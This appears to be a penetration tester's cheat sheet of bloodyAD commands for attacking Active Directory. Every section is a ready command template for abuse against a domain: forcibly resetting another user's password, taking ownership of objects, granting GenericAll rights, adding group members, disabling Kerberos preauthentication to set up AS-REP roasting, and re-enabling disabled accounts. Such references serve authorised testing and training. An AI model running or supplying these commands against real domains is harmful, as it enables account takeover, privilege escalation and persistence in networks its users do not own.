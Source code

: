 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## change password / set password
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set password <target_user> '<new_passwd|Password123!>'
```

## Get writable 
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set owner '<object>' <our_user>
```

## Add GenericAll 
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add genericAll '<object>' <our_user>
```

## Add group member 
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add groupMember <group> <member>
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add uac '<object>' -f DONT_REQ_PREAUTH
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd' remove uac 'account' -f ACCOUNTDISABLE
```
